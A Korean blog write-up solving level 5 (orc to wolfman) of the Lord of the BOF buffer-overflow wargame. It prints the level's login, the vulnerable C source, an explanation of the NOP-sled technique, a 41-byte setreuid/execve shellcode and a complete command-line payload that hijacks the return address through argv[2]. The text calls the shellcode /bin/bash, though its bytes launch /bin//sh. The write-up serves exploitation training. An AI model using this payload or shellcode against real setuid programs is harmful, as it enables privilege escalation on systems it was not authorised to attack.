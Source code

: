 ```yaml
---
title: BOF/ LOB-level5(orc)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 5(orc)
**ID : orc**  
**PASSWD : cantata**         

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level5/1.PNG)  
사용자 wolfman의 권한의 wolfman파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 wolfman의 권한으로 파일을 실행할 수 있다.**  
**wolfman파일이 쉘을 실행시키도록 한다면 사용자 wolfman의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - wolfman
        - egghunter + buffer hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
{% endhighlight %}  

**wolfman.c**

### 소스분석  
1. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
2. 환경변수를 memset으로 초기화  
**환경변수를 이용한 공격 불가**  
3. argv[1][47]의 값이 \xbf가 아닌경우 "stack is still your friend" 출력 후 프로그램 종료  
**RTL기법 사용 불가 What is RTL? - [LOB(level13)](https://limjunho.github.io/2020/03/14/LOB-level13(darkknight).html)**  
4. main에 전달받은 인자 argv[1](argv[0]은 파일명)을 buffer에 복사하여 출력
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 40Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  
5. buffer를 memset으로 모두 0으로 초기화  
**4번의 취약점을 보완하였지만 argc가 2개 이상인 경우에 대한 보안은 없기 때문에 argv[2]를 이용할 수 있는 취약점이 있다.**  

### Solution  
**[LOB(level4)](https://limjunho.github.io/2019/11/03/LOB-level4(goblin).html)와 같이 argv[2]에 NOP과 ShellCode를 bof시켜 공격.**  

what is NOP sled? - NOP는 No-OPeration의 약자로 말 그대로 실행할 명령어가 없어 다음 명령어로 넘어간다.  
여기에 Sled(썰매)를 붙인 말로 고의적으로 실행흐름을 흘려 보내는 기법이다.  

Why use NOP Sled?  
임의의 메모리를 참조하게 되면 해당 위치에 무조건 악의적인 행위를 실행 하는 코드가 있을 수만은 없다.  
**gdb를 이용하여 디버깅을 하게 되면 한번 복사되어 들아가기 때문에 실제 프로세스 주소와 차이가 있다.**  
그래서 NOP Sled를 이용하면 RET에 변조한 주소에 악성코드가 없으면 자연스럽게 실행흐름을 타고 내려가 악성코드를 포함하고 있는 위치로 가게 되는 것이다.  

#### level5에서 사용한 쉘코드  
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 41Byte 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  


### Attack  

[LOB(level4)](https://limjunho.github.io/2019/11/03/LOB-level4(goblin).html)**와 같은 방식으로 문제풀이**  

![그림2](/assets/LOB/level5/2.PNG)  
공격 성공.   

**페이로드**
```bash
$ ./wolfman `python -c "print 'A'*44 + '\xd0\xfb\xff\xbf'"` `python -c "print '\x90' * 200 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"`
```